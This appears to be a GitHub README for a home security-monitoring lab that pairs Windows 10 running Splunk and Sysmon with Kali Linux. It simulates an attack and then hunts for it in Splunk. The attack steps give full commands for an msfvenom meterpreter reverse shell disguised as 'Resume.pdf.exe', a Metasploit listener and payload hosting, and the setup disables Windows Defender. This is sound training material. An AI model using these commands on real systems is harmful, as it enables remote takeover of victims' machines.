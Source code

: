 🏗️ Quick Overview
Two VMs (Windows 10 + Kali Linux) connected via internal network for controlled malware analysis and SIEM investigation.
Network: 192.168.20.0/24 | Windows: 192.168.20.10 | Kali: 192.168.20.11

🔧 Network Configuration
The Windows machine will utilise the Default NAT setting prior to changing to an internal network to download Splunk enterprise, Sysmon, and download Olaf configuration for Sysmon.

Adapter 1: NAT (internet access)
Adapter 2: Internal Network "intnet"

Set Static IPs on Internal Network:
Windows: 192.168.20.10/24
Kali: 192.168.20.11/24
![image](https://github.com/user-attachments/assets/bfda68a0-3d79-4f02-92ff-57dfb3c2f7be)


🖥️ Windows 10 Setup
1. Install Splunk Enterprise

Download free license version
Install with defaults, access at http://localhost:8000

2. Install Sysmon
powershell# Download Sysmon + Olaf config from GitHub
.\sysmon64.exe -accepteula -i sysmonconfig.xml

4. Configure Splunk Data Input

Head to your Inputs.conf file which will be found in your Splunk>etc>System>local> inputs.conf (If you don't see this file here, copy it over from your 'Default' file)

![image](https://github.com/user-attachments/assets/c63e8e12-651b-49f2-974d-96dbd72daa68)
Input this into your inputs.conf file

5. Create index endpoint
   
After establishing Splunk is installed, with sysmon added with olaf configuration, head to Splunk via localhost:8000 in Microsoft Edge > Settings > Indexes > New Index > In the Index name field enter "endpoint" and hit save.

6. Change Network Adapter Setting

You can now close and create a snapshot as a baseline, and change the network configuration in Virtualbox via settings > Internal network and ensure the name is the same name used for the Kali Linux machine.

7. Set a static IP Address

Change the network adapter settings and disable DHCP and configure the static IP address to the address we listed earlier. (192.168.20.10)

8. Disable Windows Defender

Turn off Real-time Protection (Settings > Update & Security > Windows Security)

9. Enable RDP

Settings > System > Remote Desktop > Enable


🐧 Kali Linux Setup
Network setup:
Edit connection > Wired connection 1 (Click the cog wheel) > IPv4 settings > Add address 192.168.20.11 - Netmask 24 > Add and then click save. 
To test you are in the same internal network, run the terminal in Linux and ping your Windows machine via the syntax - ping 192.168.20.10 

🎯 Attack Simulation
1. Reconnaissance

nmap -A 192.168.20.10 -Pn
Port 3389 (RDP) should be open

2. Create Payload

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe

3. Start Listener

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.20.11
set lport 4444
exploit

4. Host Payload

bash New terminal
python3 -m http.server 9999

5. Execute on Windows🖥️ 

Browse to 192.168.20.11:9999
Download and run Resume.pdf.exe
Verify meterpreter connection

6. 🐧Establish connection to Windows from Linux machine

Run shell in the mepterpreter to establish a connection to the Windows machine.
   ![image](https://github.com/user-attachments/assets/ad2933e0-fc72-4b32-b9c5-f6e321cb6f7c)

7. Run commands to create telemetry for SIEM

On the Linux machine run these three basic recon commands to 
net user
net localgroup
ipconfig

# 🔍 SOC Analysis in Splunk
Initial Detection
splunk
index=endpoint "Resume.pdf.exe"

Process Chain Analysis

splunk Get ProcessGuid from above, then:

index=endpoint <ProcessGuid>
| table _time,ParentImage,Image,CommandLine

Expected: Resume.pdf.exe → cmd.exe → net user/net localgroup/ipconfig

Threat Hunting Query

splunkindex=endpoint EventCode=1 
| where match(Image, "\\.pdf\\.exe$")
| table _time, Computer, Image, CommandLine

![image](https://github.com/user-attachments/assets/60aa3e0b-979c-40d5-8413-01a37a03eb3b)


✅ Validation

Network: Both VMs can ping each other

Splunk: Sysmon events flowing to endpoint index

Attack: Meterpreter session established

Detection: Malware execution visible in Splunk


⚠️ Lab Safety

Isolated network only - no production access

Take VM snapshots before malware execution

Re-enable Windows Defender after testing


Setup time: ~2 hours | Requires: VirtualBox, Windows 10, Kali Linux VMs
